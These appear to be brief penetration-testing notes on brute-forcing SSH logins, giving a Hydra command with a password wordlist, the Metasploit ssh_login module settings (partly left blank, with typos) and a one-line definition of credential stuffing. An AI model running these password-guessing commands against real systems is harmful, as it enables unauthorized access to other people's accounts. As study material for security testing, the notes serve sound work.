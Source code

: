 
SSH:

	Hydra
		hydra -l <user> -P /usr/share/wordlists/metasploit/unix_passswords.txt ssh://<ip>:22 -t 4 -V

	Metasploit

		use auxiliary/scanner/ssh/ssh_login
		set USERNAME <user>
		set USER_FILE <username lisst>
		set PASS_FILE
		set RHOSTS

Credential Stuffing:

	Credential stuffing is using data such as data leaks, or personal user information to just throw username and password attempts at a service